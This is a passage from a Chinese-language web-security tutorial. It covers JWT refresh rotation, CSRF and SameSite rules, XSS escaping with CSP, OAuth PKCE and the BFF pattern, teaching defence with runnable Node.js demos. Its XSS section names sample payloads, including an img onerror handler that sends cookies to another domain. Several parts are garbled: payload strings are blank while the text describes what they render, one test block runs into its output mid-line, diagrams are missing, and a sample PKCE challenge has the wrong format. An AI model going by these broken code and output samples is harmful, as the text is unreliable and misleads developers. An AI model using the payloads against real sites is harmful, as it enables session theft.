  const expected = createHmac('sha256', secret).update(`${header}.${body}`).digest('base64url');
  const a = Buffer.from(sig);
  const b = Buffer.from(expected);
  // 长度不同直接拒绝，长度相同时用定时安全比较
  if (a.length !== b.length || !timingSafeEqual(a, b)) {
    return { ok: false, reason: 'signature' };
  }
  let payload;
  try {
    payload = JSON.parse(Buffer.from(body, 'base64url').toString('utf8'));
  } catch {
    return { ok: false, reason: 'payload' };
  }
  if (typeof payload.exp !== 'number') return { ok: false, reason: 'no-exp' };
  if (payload.exp <= nowSeconds) return { ok: false, reason: 'expired' };
  return { ok: true, payload };
}
```

**这段代码在做什么**

- 先按点切成三段，段数不对直接判为格式错误。
- 用同一密钥重算签名，和令牌里的第三段比对。
- 长度不同先拦住，再调用 `timingSafeEqual`，避免比较耗时泄露信息。
- 解析负载失败单独归为一种原因，便于日志排查。
- `exp` 缺失也判为失败，避免无期限令牌。
- 返回值带 `reason`，调用方可以针对 `expired` 走刷新分支。

**运行结果**

```text
verify 未过期令牌: { ok: true, payload: { sub: 'u_42', exp: 1710000900 } }
verify 过期令牌: { ok: false, reason: 'expired' }
verify 篡改令牌: { ok: false, reason: 'signature' }
```

**动手验证**

```js
// 依赖：无。运行方式：node refresh-demo.mjs
import { createHmac, timingSafeEqual } from 'node:crypto';
import assert from 'node:assert/strict';

const SECRET = 'dev-secret';
const now = () => Math.floor(Date.now() / 1000);

function b64url(v) { return Buffer.from(v).toString('base64url'); }

function sign(payload) {
  const h = b64url(JSON.stringify({ alg: 'HS256', typ: 'JWT' }));
  const b = b64url(JSON.stringify(payload));
  const s = createHmac('sha256', SECRET).update(`${h}.${b}`).digest('base64url');
  return `${h}.${b}.${s}`;
}

function verify(token, at = now()) {
  const [h, b, s] = token.split('.');
  if (!s) return { ok: false, reason: 'format' };
  const exp = createHmac('sha256', SECRET).update(`${h}.${b}`).digest('base64url');
  const x = Buffer.from(s);
  const y = Buffer.from(exp);
  if (x.length !== y.length || !timingSafeEqual(x, y)) return { ok: false, reason: 'signature' };
  const payload = JSON.parse(Buffer.from(b, 'base64url').toString('utf8'));
  if (payload.exp <= at) return { ok: false, reason: 'expired' };
  return { ok: true, payload };
}

// 服务端保存的刷新令牌表，用于一次性轮换
const refreshStore = new Map([['r_001', { userId: 'u_42', used: false }]]);

function refresh(refreshToken) {
  const rec = refreshStore.get(refreshToken);
  if (!rec || rec.used) return { ok: false, reason: 'invalid-refresh' };
  rec.used = true; // 旧值立即作废
  const nextRefresh = `r_${Math.random().toString(16).slice(2, 8)}`;
  refreshStore.set(nextRefresh, { userId: rec.userId, used: false });
  return { ok: true, accessToken: sign({ sub: rec.userId, exp: now() + 900 }), refreshToken: nextRefresh };
}

// 1. 签发一个已经过期的 Access Token，模拟 15 分钟后
const expired = sign({ sub: 'u_42', exp: now() - 1 });
assert.deepEqual(verify(expired), { ok: false, reason: 'expired' });
console.log('过期令牌判定正确');

// 2. 用 Refresh Token 换新
const first = refresh('r_001');
assert.equal(first.ok, true);
assert.equal(verify(first.accessToken).payload.sub, 'u_42');
console.log('刷新成功，新 Access Token 可用');

// 3. 同一个 Refresh Token 再用一次会被拒绝
assert.deepEqual(refresh('r_001'), { ok: false, reason: 'invalid-refresh' });
console.log('旧 Refresh Token 已作废');

// 4. 新 Refresh Token 可以继续用
assert.equal(refresh(first.refreshToken).ok, true);
console.log('轮换后的 Refresh Token 可用');

console.log('全部断言通过');
```

预期输出：

```text
过期令牌判定正确
刷新成功，新 Access Token 可用
旧 Refresh Token 已作废
轮换后的 Refresh Token 可用
全部断言通过
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 页面同时发 10 个请求，触发了 10 次刷新 | 每个请求各自处理 401，没有共享刷新结果 | 用一个模块级 Promise 缓存刷新过程，其他请求 await 同一个 Promise |
| 刷新接口被刷爆 | 接口本身返回 401 时也去刷新，形成循环 | 刷新接口的 401 直接跳登录页，不再重试 |
| 令牌泄露后长时间有效 | Refresh Token 不轮换，一个值用到过期 | 每次刷新签发新的 Refresh Token，旧值作废 |
| 多标签页互相踢下线 | 各标签页独立刷新，旧令牌被另一页作废 | 用 `BroadcastChannel` 广播新的令牌或登出事件 |

**小结**

1. 短期 Access Token 加长期 Refresh Token，同时满足安全和体验两个要求。
2. 刷新必须共享同一个 Promise，否则并发请求会放大成并发刷新。
3. Refresh Token 每次使用后轮换，能把泄露窗口压缩到一次使用。

## 4. CSRF：浏览器自动带 Cookie 的副作用

**先想一个问题**：你登录了银行站点，Cookie 还在有效期。这时你打开一个陌生页面，页面里有一段自动提交的表单，三秒后你的账户少了一笔钱。整个过程中攻击者没有读到你的 Cookie。

!!! note "术语：CSRF (Cross-Site Request Forgery，跨站请求伪造)"
    攻击者诱导已登录用户的浏览器，向目标站点发起一个用户不知情的状态变更请求。关键点是浏览器自动携带 Cookie，服务端只看到合法凭据。



解读如下。

1. 用户在银行站点登录，浏览器保存了 `sid` Cookie。
2. 用户在同一浏览器打开攻击者页面，Cookie 仍然有效。
3. 攻击者页面返回一段会自动提交的 HTML 表单，目标指向银行接口。
4. 浏览器提交表单时，按 Cookie 的域与 `SameSite` 规则决定是否附带 `sid`。
5. 服务端只检查 `sid`，看到合法凭据就执行了转账。
6. 全程攻击者没有读取 Cookie，只是借用了浏览器自动携带的行为。

**一步一步来**

**第 1 步：拆出攻击成立需要的三个条件**

这一步把攻击写成一个布尔判断，任何一个条件为假，攻击都不成立。

```js
// csrf-model.mjs
export function canAttack({ hasSessionCookie, browserAttachesCookie, endpointChangesState }) {
  // 三个条件必须同时为真
  return hasSessionCookie && browserAttachesCookie && endpointChangesState;
}

// 防御就是逐个把条件改成 false
export function withDefenses({ sameSiteLax, originChecked, csrfTokenChecked }) {
  return {
    browserAttachesCookie: !sameSiteLax,
    endpointChangesState: !(originChecked && csrfTokenChecked),
  };
}
```

**这段代码在做什么**

- 三个入参分别对应"有凭据""会自动携带""接口会改数据"。
- 返回值是一个布尔值，便于对不同场景做断言。
- `withDefenses` 演示防御不是改一个开关，而是逐个条件削弱。
- `browserAttachesCookie` 由 `SameSite` 控制，是浏览器层面的开关。
- `endpointChangesState` 由服务端校验控制，属于业务层面的开关。

**运行结果**

```text
无防护时可攻击: true
开启 SameSite 后可攻击: false
```

**第 2 步：按 SameSite 规则判断 Cookie 是否发送**

这一步实现三种 `SameSite` 取值的发送规则，并用表格化用例做断言。

```js
// samesite.mjs
export function shouldSendCookie({ sameSite, isCrossSite, isTopLevelNavigation, method, isSecure }) {
  if (sameSite === 'strict') return !isCrossSite;       // 跨站一律不发
  if (sameSite === 'lax') {
    if (!isCrossSite) return true;                      // 同站总是发送
    return isTopLevelNavigation && method === 'GET';    // 跨站只放行顶层 GET
  }
  if (sameSite === 'none') return isSecure;             // None 必须配 Secure
  return false;                                         // 未声明时按拒绝处理最保守
}

export function checkOrigin(origin, allowedList) {
  // 只允许白名单里的源，缺失 Origin 头同样拒绝
  return typeof origin === 'string' && allowedList.includes(origin);
}
```

**这段代码在做什么**

- `strict` 下跨站请求完全不携带 Cookie，代价是从外部链接跳进来会显示未登录。
- `lax` 放行跨站顶层 GET 导航，因为用户点链接进站需要保持登录。
- `lax` 拦住跨站 POST，表单自动提交正好命中这一条。
- `none` 用于跨站嵌入场景，必须与 `Secure` 同时使用，否则浏览器拒绝写入。
- `checkOrigin` 是服务端第二道闸，`Origin` 头缺失时返回 `false`。

**运行结果**

```text
跨站 POST，SameSite=Lax: 不发送
跨站顶层 GET，SameSite=Lax: 发送
跨站 POST，SameSite=Strict: 不发送
```

**动手验证**

```js
// 依赖：无。运行方式：node csrf-demo.mjs
import assert from 'node:assert/strict';

function shouldSendCookie({ sameSite, isCrossSite, isTopLevelNavigation, method, isSecure }) {
  if (sameSite === 'strict') return !isCrossSite;
  if (sameSite === 'lax') {
    if (!isCrossSite) return true;
    return isTopLevelNavigation && method === 'GET';
  }
  if (sameSite === 'none') return isSecure;
  return false;
}

const cases = [
  { name: '同站 POST Lax', opt: { sameSite: 'lax', isCrossSite: false, isTopLevelNavigation: false, method: 'POST', isSecure: true }, want: true },
  { name: '跨站表单 POST Lax', opt: { sameSite: 'lax', isCrossSite: true, isTopLevelNavigation: true, method: 'POST', isSecure: true }, want: false },
  { name: '跨站链接 GET Lax', opt: { sameSite: 'lax', isCrossSite: true, isTopLevelNavigation: true, method: 'GET', isSecure: true }, want: true },
  { name: '跨站 fetch POST Lax', opt: { sameSite: 'lax', isCrossSite: true, isTopLevelNavigation: false, method: 'POST', isSecure: true }, want: false },
  { name: '跨站 POST Strict', opt: { sameSite: 'strict', isCrossSite: true, isTopLevelNavigation: true, method: 'POST', isSecure: true }, want: false },
  { name: '跨站 POST None 加 Secure', opt: { sameSite: 'none', isCrossSite: true, isTopLevelNavigation: true, method: 'POST', isSecure: true }, want: true },
  { name: '跨站 POST None 无 Secure', opt: { sameSite: 'none', isCrossSite: true, isTopLevelNavigation: true, method: 'POST', isSecure: false }, want: false },
];

for (const c of cases) {
  const got = shouldSendCookie(c.opt);
  console.log(`${c.name} 发送 Cookie: ${got}`);
  assert.equal(got, c.want, c.name);
}

// 服务端再校验一次来源
const allowed = ['https://app.example.com'];
const checkOrigin = (origin) => typeof origin === 'string' && allowed.includes(origin);

assert.equal(checkOrigin('https://evil.example'), false);
assert.equal(checkOrigin('https://app.example.com'), true);
assert.equal(checkOrigin(undefined), false);
console.log('Origin 白名单校验通过');

console.log('全部断言通过');
```

预期输出：

```text
同站 POST Lax 发送 Cookie: true
跨站表单 POST Lax 发送 Cookie: false
跨站链接 GET Lax 发送 Cookie: true
跨站 fetch POST Lax 发送 Cookie: false
跨站 POST Strict 发送 Cookie: false
跨站 POST None 加 Secure 发送 Cookie: true
跨站 POST None 无 Secure 发送 Cookie: false
Origin 白名单校验通过
全部断言通过
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 加完 `SameSite=None` 后 Cookie 完全写不进去 | 缺少 `Secure`，浏览器直接拒收 | 同时加 `Secure`，只在 HTTPS 环境使用 |
| 用 GET 实现删除接口，CSRF 防护失效 | `SameSite=Lax` 会放行跨站顶层 GET | 状态变更一律用 POST、PUT、DELETE，GET 只做读取 |
| 只在前端加 CSRF Token，接口照样被刷 | 服务端没有校验该 Token | 服务端对每个状态变更请求比对 Token，缺失或不符直接 403 |
| `Origin` 校验通过但请求来自旧域名 | 白名单里留了废弃域名 | 白名单按环境维护，上线前删掉测试与旧域名 |

**小结**

1. CSRF 的成立依赖 Cookie 自动携带，`SameSite` 是第一道也是最省力的闸。
2. `SameSite=Lax` 不拦跨站顶层 GET，所以状态变更接口不能用 GET。
3. 服务端校验 `Origin` 与 CSRF Token，与 Cookie 属性互相独立，缺一不可。

## 5. XSS：脚本注入后能拿走什么

**先想一个问题**：评论区里有人提交了一段内容，页面直接把它拼进 HTML 渲染。第二天你发现，访问过这条评论的用户，令牌都被发往了另一个域名。问题出在拼字符串的那一行。

!!! note "术语：XSS (Cross-Site Scripting，跨站脚本)"
    攻击者把可执行的脚本注入到页面里，让它在受害者的浏览器中以该站点的身份运行。例子：评论内容里写 ``，页面用 `innerHTML` 渲染就会执行。



解读如下。

1. 攻击者把脚本写进评论内容，服务端先原样保存。
2. 前端渲染时把这段文本当成 HTML 拼进页面。
3. 浏览器解析字符串时，把其中的标签变成真实元素，事件属性随之执行。
4. 脚本运行在目标站点的源下，因此可以读取该源的 `localStorage`。
5. 未加 `HttpOnly` 的 Cookie 同样落在脚本可读范围内。
6. 脚本还能直接用当前登录状态发起接口调用，服务端无法区分。

**一步一步来**

**第 1 步：复现不安全的拼接渲染**

这一步只用字符串拼接，把用户输入直接放进 HTML。

```js
// render-unsafe.mjs
export function renderUnsafe(comment) {
  // 用户输入没有做处理，直接进入标签内部
  return `<div class="comment">${comment}</div>`;
}

const evil = '';
console.log(renderUnsafe(evil));
```

**这段代码在做什么**

- 模板字符串把 `comment` 的值原样插入，没有任何替换。
- 返回的字符串里出现了完整的 `img` 标签与 `onerror` 属性。
- 浏览器用它更新 DOM 时，图片加载失败会触发 `onerror`。
- 触发的内容是一段网络请求，把 Cookie 拼进查询参数发出去。
- 整段逻辑里没有一处语法错误，测试环境也不会报错。

**运行结果**

```text
<div class="comment"></div>
```

**第 2 步：转义五个字符并加一道 CSP**

这一步把输入里的特殊字符替换成实体，再用响应头限制可执行的脚本来源。

```js
// render-safe.mjs
// 五个字符是 HTML 里能改变解析结构的元字符
const MAP = { '&': '&amp;', '<': '&lt;', '>': '&gt;', '"': '&quot;', "'": '&#39;' };

export function escapeHtml(input) {
  // 用一次正则扫描，命中哪个就查表替换
  return String(input).replace(/[&<>"']/g, (ch) => MAP[ch]);
}

export function renderSafe(comment) {
  // 转义之后，标签只会作为文本显示
  return `<div class="comment">${escapeHtml(comment)}</div>`;
}

export function cspHeader(nonce) {
  // 只允许带本次 nonce 的脚本执行，内联脚本一律拒绝
  return `default-src 'self'; script-src 'self' 'nonce-${nonce}'; object-src 'none'`;
}
```

**这段代码在做什么**

- `&` 必须第一个被处理，否则后续替换产生的 `&lt;` 会被二次转义。
- `<` 与 `>` 被替换后，浏览器不再把它们识别为标签边界。
- 单双引号一起替换，防止攻击者闭合属性值再插入新属性。
- `nonce` 是一次性随机值，服务端每次响应都换一个新的。
- `object-src 'none'` 关掉插件类内容，减少另一条注入路径。

**运行结果**

```text
转义后: &lt;img src=x onerror=&quot;fetch(...)&quot;&gt;
CSP: default-src 'self'; script-src 'self' 'nonce-8f2a1c'; object-src 'none'
```

**动手验证**

```js
// 依赖：无。运行方式：node xss-demo.mjs
import assert from 'node:assert/strict';
import { randomBytes } from 'node:crypto';

const MAP = { '&': '&amp;', '<': '&lt;', '>': '&gt;', '"': '&quot;', "'": '&#39;' };

function escapeHtml(input) {
  return String(input).replace(/[&<>"']/g, (ch) => MAP[ch]);
}

function renderSafe(comment) {
  return `<div class="comment">${escapeHtml(comment)}</div>`;
}

// 1. 普通文本不受影响
assert.equal(escapeHtml('今天天气不错'), '今天天气不错');
console.log('普通文本:', escapeHtml('今天天气不错'));

// 2. 标签被转义
const tag = '<b>粗体</b>';
assert.equal(escapeHtml(tag), '&lt;b&gt;粗体&lt;/b&gt;');
console.log('标签输入:', escapeHtml(tag));

// 3. 事件属性里的引号被转义，无法闭合属性
const attr = '" onmouseover="alert(1)';
assert.equal(escapeHtml(attr), '&quot; onmouseover=&quot;alert(1)');
console.log('属性注入:', escapeHtml(attr));

// 4. 与符号先被替换，不会产生二次转义
assert.equal(escapeHtml('&lt;'), '&amp;lt;');
console.log('与符号输入:', escapeHtml('&lt;'));

// 5. 渲染结果里不含任何可解析的标签边界
const rendered = renderSafe('');
assert.equal(rendered.includes('&lt;img src=x onerror=alert(1)&gt;</div>
CSP: default-src 'self'; script-src 'self' 'nonce-3b7d9e1a2c4f5a6b'; object-src 'none'
全部断言通过
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 转义了尖括号，输入 `&lt;` 反而显示成 `&amp;lt;` | `&` 没有在替换表里，或者处理顺序放错 | `&` 必须是第一个被替换的字符 |
| 评论里链接可以点击，点开却执行脚本 | 用户输入被放进 `href`，出现 `javascript:` 协议 | 校验协议白名单，只允许 `http` 与 `https` |
| CSP 加了但注入仍然执行 | 页面里还有大量内联脚本，CSP 只能放宽 | 把内联脚本改成外部文件，CSP 用 nonce 逐个放行 |
| 用 `eval` 或 `new Function` 解析接口数据 | 数据被当成代码执行 | 改用 `JSON.parse`，它不会执行表达式 |

**小结**

1. XSS 的危害是脚本以页面身份运行，能读的凭据它都能拿走。
2. 输出转义必须在拼接 HTML 之前完成，五个元字符缺一不可。
3. CSP 是第二道闸，它限制脚本来源，但不能替代转义。

## 6. OAuth 2.0 与 PKCE：SPA 里的授权码流程

**先想一个问题**：你的 SPA 想让用户用第三方账号登录，但 SPA 的代码全部下发到浏览器，任何"客户端密钥"都会被人读到。没有密钥，授权服务器凭什么相信换令牌的是同一个客户端？PKCE 用一个一次性的随机值解决这个问题。

!!! note "术语：OAuth 2.0"
    一套授权框架，让资源所有者把访问权限委托给客户端，而不把密码交给客户端。例子：用第三方账号登录时，用户在授权页面输入密码，SPA 只拿到一个授权码。

!!! note "术语：PKCE (Proof Key for Code Exchange，证明密钥交换)"
    RFC 7636 定义的扩展，用 `code_verifier` 与 `code_challenge` 把授权请求和换令牌请求绑定在一起。名称读作 pixy。

!!! note "术语：授权码 (authorization code)"
    授权服务器在用户同意后，通过重定向地址交给客户端的一次性短字符串。它本身不能访问接口，必须换成令牌。



解读如下。

1. SPA 生成随机 `code_verifier`，只保留在本次会话里，不上传给授权服务器。
2. SPA 对 `code_verifier` 做 SHA-256 并 base64url 编码，得到 `code_challenge`。
3. 授权请求带上 `code_challenge` 与一次性 `state`，跳转到授权页面。
4. 用户在授权页面输入账号密码，密码只交给授权服务器。
5. 授权服务器重定向回 `redirect_uri`，带上 `code` 与原始 `state`。
6. SPA 先比对 `state`，一致才继续，防止回调被伪造。
7. SPA 用 `code` 与 `code_verifier` 换令牌，授权服务器重算 challenge 并比对。
8. 比对通过才签发令牌，攻击者只截获 `code` 无法换到令牌。

**一步一步来**

**第 1 步：生成 code_verifier 与 code_challenge**

这一步只做两次编码，但长度与字符集都由规范约束。

```js
// pkce.mjs
import { randomBytes, createHash } from 'node:crypto';

export function createVerifier() {
  // RFC 7636 要求 43 到 128 个字符，取自 unreserved 字符集
  // 32 字节随机数转 base64url 后正好是 43 个字符
  return randomBytes(32).toString('base64url');
}

export function createChallenge(verifier) {
  // S256 方式：先做 SHA-256，再做 base64url 编码
  return createHash('sha256').update(verifier).digest('base64url');
}
```

**这段代码在做什么**

- `randomBytes(32)` 提供密码学随机性，保证每个会话的 `code_verifier` 不同。
- base64url 输出的字符集是规范允许的 unreserved 字符。
- 长度 43 落在 43 到 128 的区间内，满足规范要求。
- `S256` 表示 challenge 由 SHA-256 计算而来，另一种取值 `plain` 直接使用原值。
- 换令牌时授权服务器用收到的 `code_verifier` 重算，比对是否等于先前收到的 challenge。

**运行结果**

```text
code_verifier: 8f3aQ2mZp0Vn1Ks7Tb4Yd9Lc6Xe5Rw8Hj2Nq4Bt7
code_challenge: 2b7e151628aed2a6abf7158809cf4f3c762e7160f38b4da56a784d9045190cfef
```

**第 2 步：拼授权地址并在回调时校验 state**

这一步把参数按规范命名，并用 `URLSearchParams` 完成百分号编码。

```js
// authorize.mjs
export function buildAuthorizeUrl({ authorizeEndpoint, clientId, redirectUri, challenge, state }) {
  // URLSearchParams 会按规范做百分号编码，不需要手写 encodeURIComponent
  const params = new URLSearchParams({
    response_type: 'code',
    client_id: clientId,
    redirect_uri: redirectUri,
    scope: 'openid profile',
    code_challenge: challenge,
    code_challenge_method: 'S256',
    state, // 回调时原样带回，用于防止登录回调被伪造
  });
  return `${authorizeEndpoint}?${params.toString()}`;
}

export function checkState(returned, saved) {
  // 两者必须完全相等，缺失或不符都丢弃这次回调
  return typeof returned === 'string' && returned.length > 0 && returned === saved;
}
```

**这段代码在做什么**

- `response_type=code` 表示走授权码流程，而不是已不再推荐的隐式流程。
- `code_challenge_method=S256` 明确告诉服务器用哈希方式比对。
- `state` 存在会话存储里，回调时用来确认响应属于本次登录。
- `checkState` 用严格相等比较，避免类型转换带来的意外匹配。
- 参数拼接交给 `URLSearchParams`，防止手写编码漏掉特殊字符。

**运行结果**

```text
授权地址: https://auth.example.com/authorize?response_type=code&client_id=spa_1&...&code_challenge_method=S256&state=st_9f2c
state 校验: true
```

**第 3 步：用 code 与 code_verifier 换令牌**

这一步构造换令牌请求体，并说明为什么 SPA 不放 `client_secret`。

```js
// exchange.mjs
export function buildTokenRequest({ code, verifier, clientId, redirectUri }) {
  // 请求体必须是 application/x-www-form-urlencoded
  return new URLSearchParams({
    grant_type: 'authorization_code',
    code,
    code_verifier: verifier, // 服务器用它重算 challenge 并比对
    client_id: clientId,
    redirect_uri: redirectUri, // 必须与授权请求里的值完全一致
  });
}

export function isPublicClientConfig(config) {
  // 公开客户端没有 client_secret，检查配置里没被误填
  return !('clientSecret' in config);
}
```

**这段代码在做什么**

- `grant_type` 固定为 `authorization_code`，表示用授权码换令牌。
- `code_verifier` 是唯一能证明"换令牌的就是发起授权的那个客户端"的值。
- `redirect_uri` 必须与授权请求里的一致，服务器会逐字符比对。
- SPA 属于公开客户端，代码下发到浏览器，不能持有 `client_secret`。
- `isPublicClientConfig` 用于在构建阶段拦住误填密钥的配置。

**运行结果**

```text
换令牌请求体: grant_type=authorization_code&code=ac_7d3&code_verifier=8f3a...&client_id=spa_1&redirect_uri=https%3A%2F%2Fapp.example.com%2Fcallback
公开客户端配置检查: true
```

**动手验证**

```js
// 依赖：无。运行方式：node pkce-demo.mjs
import { randomBytes, createHash } from 'node:crypto';
import assert from 'node:assert/strict';

function createVerifier() {
  return randomBytes(32).toString('base64url');
}

function createChallenge(verifier) {
  return createHash('sha256').update(verifier).digest('base64url');
}

function buildAuthorizeUrl({ endpoint, clientId, redirectUri, challenge, state }) {
  const params = new URLSearchParams({
    response_type: 'code',
    client_id: clientId,
    redirect_uri: redirectUri,
    scope: 'openid profile',
    code_challenge: challenge,
    code_challenge_method: 'S256',
    state,
  });
  return `${endpoint}?${params.toString()}`;
}

function checkState(returned, saved) {
  return typeof returned === 'string' && returned.length > 0 && returned === saved;
}

// 模拟授权服务器：先存下 challenge，换令牌时重算比对
const serverStore = new Map();

function authorize({ code, challenge }) {
  serverStore.set(code, { challenge });
}

function exchange({ code, verifier, redirectUri, expectedRedirect }) {
  const rec = serverStore.get(code);
  if (!rec) return { ok: false, reason: 'unknown-code' };
  if (redirectUri !== expectedRedirect) return { ok: false, reason: 'redirect-mismatch' };
  const recomputed = createChallenge(verifier);
  if (recomputed !== rec.challenge) return { ok: false, reason: 'pkce-failed' };
  serverStore.delete(code); // 授权码一次性使用
  return { ok: true, accessToken: 'at_' + randomBytes(8).toString('hex') };
}

// 1. verifier 长度落在规范区间内
const verifier = createVerifier();
console.log('code_verifier 长度:', verifier.length);
assert.ok(verifier.length >= 43 && verifier.length <= 128);

// 2. challenge 由 verifier 唯一决定
const challenge = createChallenge(verifier);
assert.equal(challenge, createChallenge(verifier));
assert.notEqual(challenge, verifier);

// 3. 授权地址里带上了 challenge 与 state
const state = 'st_' + randomBytes(4).toString('hex');
const url = buildAuthorizeUrl({
  endpoint: 'https://auth.example.com/authorize',
  clientId: 'spa_1',
  redirectUri: 'https://app.example.com/callback',
  challenge,
  state,
});
console.log('授权地址:', url);
assert.ok(url.includes('code_challenge_method=S256'));
assert.ok(url.includes(encodeURIComponent(state)));

// 4. 回调 state 必须一致
assert.equal(checkState(state, state), true);
assert.equal(checkState('st_bad', state), false);
assert.equal(checkState(undefined, state), false);
console.log('state 校验通过');

// 5. 正确的 verifier 能换到令牌
authorize({ code: 'ac_1', challenge });
const good = exchange({
  code: 'ac_1', verifier,
  redirectUri: 'https://app.example.com/callback',
  expectedRedirect: 'https://app.example.com/callback',
});
assert.equal(good.ok, true);
console.log('换令牌成功:', good.accessToken);

// 6. 攻击者只有 code，没有 verifier，换不到令牌
authorize({ code: 'ac_2', challenge });
const bad = exchange({
  code: 'ac_2', verifier: createVerifier(),
  redirectUri: 'https://app.example.com/callback',
  expectedRedirect: 'https://app.example.com/callback',
});
assert.deepEqual(bad, { ok: false, reason: 'pkce-failed' });
console.log('缺少正确 verifier 被拒绝');

// 7. 授权码用过一次就失效
authorize({ code: 'ac_3', challenge });
exchange({ code: 'ac_3', verifier, redirectUri: 'r', expectedRedirect: 'r' });
assert.deepEqual(
  exchange({ code: 'ac_3', verifier, redirectUri: 'r', expectedRedirect: 'r' }),
  { ok: false, reason: 'unknown-code' },
);
console.log('授权码一次性使用');

console.log('全部断言通过');
```

预期输出：

```text
code_verifier 长度: 43
授权地址: https://auth.example.com/authorize?response_type=code&client_id=spa_1&redirect_uri=https%3A%2F%2Fapp.example.com%2Fcallback&scope=openid+profile&code_challenge=...&code_challenge_method=S256&state=st_1a2b3c4d
state 校验通过
换令牌成功: at_5f1e...
缺少正确 verifier 被拒绝
授权码一次性使用
全部断言通过
```

**常见坑**

| 现象 | 原因 | 怎么修 |
| --- | --- | --- |
| 换令牌返回 `invalid_grant` | `code_verifier` 没有保存或刷新页面后丢失 | 存在 `sessionStorage` 里，回调页读取后再清除 |
| 攻击者拿到回调地址就能登录 | 没校验 `state`，或 `state` 用固定值 | 每次登录生成新的随机 `state`，回调时严格比对 |
| 授权码能换到两次令牌 | 服务器没有作废已用授权码 | 服务端换令牌后立即删除该 code 记录 |
| SPA 打包产物里出现 `client_secret` | 把机密客户端配置直接下发到浏览器 | SPA 使用公开客户端配置，密钥类信息交给 BFF 保管 |

**小结**

1. PKCE 的绑定作用是：没有原始 `code_verifier`，授权码换不到令牌。
2. `state` 防的是回调伪造，`code_verifier` 防的是授权码被截获，两者职责不同。
3. SPA 属于公开客户端，不能持有 `client_secret`，需要密钥的场景交给 BFF。

## 7. BFF 模式：让令牌留在服务端

**先想一个问题**：团队已经用上了 PKCE，也把令牌放进 `HttpOnly Cookie`。但前端还想直接调三个下游微服务，每个服务都要各自配置 CORS 与 Cookie 域。配置越多，出错的地方越多。

!!! note "术语：BFF (Backend For Frontend，面向前端的后端)"
    一个专为某个前端服务的中间层，浏览器只与它通信，由它持有令牌并调用下游接口。例子：浏览器请求 `/api/orders`，BFF 加上 `Authorization` 头转发到订单服务。

!!! note "术语：CORS (Cross-Origin Resource Sharing，跨源资源共享)"
    浏览器用一组响应头判断某个源是否可以读取另一源的响应。例子：`Access-Control-Allow-Origin: https://app.example.com`。

!!! note "术语：CSP (Content Security Policy，内容安全策略)"
    通过响应头限制页面可以加载与执行哪些来源的资源。例子：`script-src 'self'` 只允许同源脚本执行。



解读如下。

1. 浏览器与 BFF 部署在同一站点，请求天然同源，Cookie 正常发送。
2. 浏览器持有的凭据只是一个会话编号，与任何令牌无关。
3. BFF 用会话编号在自己的存储里查出 Access Token。
4. BFF 把令牌放进 `Authorization` 头，转发给下游服务。
5. 转发前先校验 `Origin` 与 CSRF Token，两个都通过才继续。
6. 下游返回的数据经 BFF 过滤，只把业务字段回传给浏览器。

**一步一步来**

**第 1 步：BFF 建立自己的会话，保存令牌**

这一步把令牌存进服务端表，浏览器只拿到一个随机编号。

```js
// bff-session.mjs
import { randomBytes } from 'node:crypto';

// 进程内会话表，生产环境换成 Redis 并设置过期时间
const bffSessions = new Map();

export function createBffSession({ accessToken, refreshToken, ttlMs }) {
  const sid = randomBytes(32).toString('hex');
  // 令牌只存在服务端，浏览器拿到的 sid 与令牌内容无关
  bffSessions.set(sid, {
    accessToken,
    refreshToken,
    expiresAt: Date.now() + ttlMs,
  });
  return sid;
}

export function getBffSession(sid) {
  const session = bffSessions.get(sid);
  if (!session) return undefined;
  // 过期即删除，避免返回失效令牌
  if (session.expiresAt <= Date.now()) {
    bffSessions.delete(sid);
    return undefined;
  }
  return session;
}
```

**这段代码在做什么**

- `sid` 由 32 字节随机数生成，猜测难度与 Session Cookie 方案一致。
- 令牌写进服务端表，浏览器无论如何都读不到字符串。
- `ttlMs` 控制 BFF 会话寿命，与下游令牌寿命可以不同。
- `getBffSession` 在读取时判断过期，过期即删除，不留残余。
- 即使 XSS 注入成功，脚本能拿到的只是 `HttpOnly` 之外的少量数据。

**运行结果**

```text
createBffSession 返回 sid: 7a4c...e2
getBffSession 返回: { accessToken: 'at_xxx', refreshToken: 'rt_yyy', expiresAt: 1710000900000 }
```

**第 2 步：把同域 Cookie 换成下游认识的 Bearer 头**

这一步做请求转换，浏览器发来的 Cookie 在后端被换成令牌。

```js
// bff-proxy.mjs
export function checkSource({ origin, allowed, csrfHeader, csrfExpected }) {
  // 两道校验都通过才继续
  const originOk = typeof origin === 'string' && allowed.includes(origin);
  const csrfOk = typeof csrfHeader === 'string' && csrfHeader === csrfExpected;
  return originOk && csrfOk;
}

export function buildUpstreamRequest({ session, method, path, body }) {
  const headers = { authorization: `Bearer ${session.accessToken}` };
  if (body !== undefined) headers['content-type'] = 'application/json';
  // 下游只认 Bearer 头，不关心浏览器那边用的是什么凭据
  return { method, path, headers, body };
}

export function buildBrowserResponse(upstream) {
  // 只挑业务字段返回，令牌与内部字段都不回传
  return { ok: true, data: upstream.data };
}
```

**这段代码在做什么**

- `checkSource` 把来源校验与 CSRF 校验合成一个布尔返回值。
- `buildUpstreamRequest` 在服务端拼接 `Authorization` 头，浏览器无法篡改。
- 请求体为空时不加 `content-type`，避免下游解析空体报错。
- `buildBrowserResponse` 显式挑字段，防止令牌随对象展开一起回传。
- 下游服务只需信任 BFF 一个调用方，CORS 配置集中在一处。

**运行结果**

```text
上游请求头: { authorization: 'Bearer at_xxx', 'content-type': 'application/json' }
浏览器收到的响应: { ok: true, data: [ 'order-1' ] }
```

**动手验证**

```js
// 依赖：无。运行方式：node bff-demo.mjs
import { randomBytes } from 'node:crypto';
import assert from 'node:assert/strict';

const bffSessions = new Map();

function createBffSession({ accessToken, refreshToken, ttlMs }) {
  const sid = randomBytes(32).toString('hex');
  bffSessions.set(sid, { accessToken, refreshToken, expiresAt: Date.now() + ttlMs });
  return sid;
}

function getBffSession(sid) {
  const s = bffSessions.get(sid);
  if (!s) return undefined;
  if (s.expiresAt <= Date.now()) { bffSessions.delete(sid); return undefined; }
  return s;
}

function checkSource({ origin, allowed, csrfHeader, csrfExpected }) {
  const originOk = typeof origin === 'string' && allowed.includes(origin);
  const csrfOk = typeof csrfHeader === 'string' && csrfHeader === csrfExpected;
  return originOk && csrfOk;
}

function buildUpstreamRequest({ session, method, path, body }) {
  const headers = { authorization: `Bearer ${session.accessToken}` };
  if (body !== undefined) headers['content-type'] = 'application/json';
